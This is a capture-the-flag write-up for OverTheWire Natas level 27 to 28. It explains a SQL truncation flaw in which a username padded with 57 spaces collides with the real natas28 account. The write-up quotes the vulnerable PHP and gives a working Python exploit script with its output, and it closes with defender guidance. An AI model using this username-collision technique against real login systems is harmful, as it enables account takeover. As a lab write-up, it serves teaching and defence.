

# Natas Level 27 → 28

**Vulnerability:** SQL Truncation Attack via Username Length Validation Flaw
**Difficulty:** Hard
**Tools Used:** Python, Firefox DevTools, HTTP Basic Authentication
**OWASP Category:** A03:2021 – Injection
**Attack Class:** Input Validation Failure / SQL Truncation

---

### What the level gives you

The application allows users to register and authenticate using a username and password. If authentication succeeds, the application displays account data stored in the backend database.

Unlike previous SQL injection levels, the source code shows that user input is escaped using `mysqli_real_escape_string()`, making classic SQL injection ineffective. The vulnerability instead exists in how usernames are validated, stored, and later retrieved.

---

### Vulnerability theory

SQL truncation vulnerabilities occur when application validation logic differs from database storage behavior.

A common example is a database column with a fixed maximum length. If the application accepts longer input but silently truncates it before storage, two different user-supplied values can become identical inside the database.

This creates an identity confusion condition. During registration, the application may believe a username is unique because it evaluates the original user input. However, after truncation, the stored value may collide with an existing account.

The attack becomes dangerous when authentication, authorization, or account retrieval logic uses a different normalization process than registration. In those situations, an attacker can impersonate another account without knowing its password.

The primitive provided by this flaw is account takeover through username collision.

---

### Source code analysis

The database schema reveals the root cause:

```sql
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
```

The username column is limited to 64 characters.

User creation performs truncation before insertion:

```php
function createUser($link, $usr, $pass){

    if($usr != trim($usr)) {
        echo "Go away hacker";
        return False;
    }

    $user=mysqli_real_escape_string(
        $link,
        substr($usr, 0, 64)
    );

    $password=mysqli_real_escape_string(
        $link,
        substr($pass, 0, 64)
    );

    $query =
        "INSERT INTO users (username,password)
         values ('$user','$password')";
}
```

The vulnerable line is:

```php
$user = substr($usr, 0, 64);
```

Any username longer than 64 characters is silently truncated.

However, user existence checks operate on the original supplied username:

```php
function validUser($link,$usr){

    $user=mysqli_real_escape_string($link, $usr);

    $query =
        "SELECT * from users
         where username='$user'";
}
```

This means:

```text
natas28
```

and

```text
natas28 + 57 spaces + anything
```

are treated as different users during validation.

The second flaw exists inside the data retrieval function:

```php
function dumpData($link,$usr){

    $user=mysqli_real_escape_string(
        $link,
        trim($usr)
    );

    $query =
        "SELECT * from users
         where username='$user'";
}
```

Notice the use of:

```php
trim($usr)
```

Trailing spaces are removed before retrieving account information.

The developer assumes registration, authentication, and retrieval all use the same username representation. They do not.

This inconsistency enables a collision with the real `natas28` account.

---

### Approach

My first assumption was SQL injection because the application exposed a registration and login workflow backed by a database.

After reviewing the source code, it became clear that user input was properly escaped and classic SQL injection would not succeed.

The interesting behavior appeared inside `createUser()`, where usernames were truncated to 64 characters before insertion. At the same time, user validation relied on the original username while account retrieval used `trim()`.

This suggested a username collision attack. If I created a username beginning with `natas28` and padded it until truncation occurred, the stored value would become identical to the real account name.

The final insight was realizing that trailing spaces survive validation but disappear during account lookup, causing the application to retrieve the victim account data.

---

### Exploitation

```python
#!/usr/bin/env python3

import requests

username = "natas27"
password = "NATAS27_PASSWORD"

url = f"http://{username}.natas.labs.overthewire.org/"

s = requests.Session()

# Username becomes exactly 64 characters after truncation
create_user = "natas28" + (" " * 57) + "anything"

# Login username trims to natas28
login_user = "natas28" + (" " * 57)

# Create colliding account
r1 = s.post(
    url,
    auth=(username, password),
    data={
        "username": create_user,
        "password": "test123"
    }
)

print("=== CREATE ===")
print(r1.text)

# Authenticate using truncated username
r2 = s.post(
    url,
    auth=(username, password),
    data={
        "username": login_user,
        "password": "test123"
    }
)

print("=== LOGIN ===")
print(r2.text)
```

Output:

```text
Welcome natas28!

[username] => natas28
[password] => <NATAS28_PASSWORD>
```

The application returns the real `natas28` account record, revealing the password for the next level.

---

### Screenshot




---

### Real-world relevance

SQL truncation issues have historically appeared in MySQL-backed applications where application validation rules did not match database constraints. Although less common today, the underlying flaw remains relevant because many authentication systems still normalize identifiers inconsistently.

In professional VAPT engagements, this vulnerability is typically reported as account takeover, authentication bypass, or identity confusion. Similar findings have been observed in legacy CMS platforms, customer portals, and internal identity-management systems where usernames or email addresses are truncated before storage.

From an OWASP perspective, the issue falls under A03 Injection because attacker-controlled input changes how database records are interpreted and retrieved.

---

### Defender's perspective

Application validation rules must exactly match database schema constraints. If usernames are limited to 64 characters in the database, values longer than 64 characters should be rejected before insertion.

Normalization rules should be identical across registration, authentication, authorization, and account retrieval workflows. Mixing raw values, truncated values, and trimmed values creates identity confusion vulnerabilities.

Unique constraints should be enforced on canonicalized identifiers rather than user-supplied strings.

SOC teams can detect exploitation attempts by monitoring registration requests containing usernames near maximum allowed lengths or repeated account creation attempts targeting existing identifiers.

---

### What I'd do differently

Instead of manually identifying the boundary condition, I would automate username length fuzzing against every registration field to identify truncation and normalization inconsistencies more quickly.